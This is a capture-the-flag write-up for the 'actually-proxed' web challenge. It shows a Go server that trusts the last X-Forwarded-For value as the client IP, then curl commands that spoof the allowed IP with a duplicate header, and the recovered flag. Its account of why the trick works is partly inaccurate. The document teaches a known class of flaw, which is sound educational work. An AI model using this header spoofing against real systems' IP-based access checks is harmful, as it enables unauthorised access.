


# actually-proxed
> Still cool haxxorz only!!! Except this time I added in a reverse proxy for extra security. Nginx and the standard library proxy are waaaayyy too slow (amateurs). So I wrote my own :D

## About the Challenge
We got a source code and a website. Here is the content of the source code

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 8081, "port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}
```

To obtain the flag, we need to set the IP to `31.33.33.7`. And as you can see, the website also allow a header called `X-Forwarded-For`

## How to Solve?
If I provided `X-Forwarded-Header` like this

```bash
curl "http://actually.proxed.duc.tf:30009/" -H "X-Forwarded-For: 127.0.0.1"
```

The output will be like this



If we provide `X-Forwarded-For` header again (So, later there will be 2 `X-Forwarded-For` headers in 1 HTTP request). The second header will affect the `r.RemoteAddr`. And the final command will be like this

```bash
curl "http://actually.proxed.duc.tf:30009/" -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 31.33.33.7"
```



```
DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
```